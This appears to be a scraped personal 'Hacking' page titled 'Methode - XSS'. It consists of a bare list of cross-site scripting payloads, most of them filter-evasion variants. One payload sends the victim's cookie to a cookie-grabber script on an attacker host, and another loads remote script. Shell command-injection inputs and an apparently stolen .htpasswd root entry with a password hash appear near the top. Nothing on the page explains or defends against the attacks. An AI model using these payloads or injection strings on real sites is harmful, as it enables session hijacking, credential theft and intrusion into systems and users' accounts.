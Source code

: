 <head>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
  <title>Methode - XSS</title>
</head>
[index](index.html) [Hacking](hacking.html)

a| ls  -> 5h6Xsxab.txt
a|cat 5h6Xsxab.txt
3dVgsa3v4

.htpasswd
root:RW3Q1nyZEe0jw

"><script>alert('prova xss')</script>


"><script>alert(document.cookie)</script>


<script>location.href="http://www.evilsite.org/cookiegrabber.php?cookie="+escape(document.co

okie)</script>

<scr<script>ipt>alert('XSS');</scr</script>ipt>

<script>alert(String.fromCharCode(88,83,83))</script>

<img src=foo.png onerror=alert(/xssed/) />

<style>@im\port'\ja\vasc\ript:alert(\"XSS\")';</style>

<? echo('<scr)'; echo('ipt>alert(\"XSS\")</script>'); ?>

<marquee><script>alert('XSS')</script></marquee>

<IMG SRC=\"jav&#x09;ascript:alert('XSS');\">

<IMG SRC=\"jav&#x0A;ascript:alert('XSS');\">

<IMG SRC=\"jav&#x0D;ascript:alert('XSS');\">

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

"><script>alert(0)</script>

"><script src=http://yoursite.com/your_files.js></script>

</title><script>alert(/xss/)</script>

</textarea><script>alert(/xss/)</script>

<IMG LOWSRC=\"javascript:alert('XSS')\">

<IMG DYNSRC=\"javascript:alert('XSS')\">

<font style='color:expression(alert(document.cookie))'>

'); alert('XSS
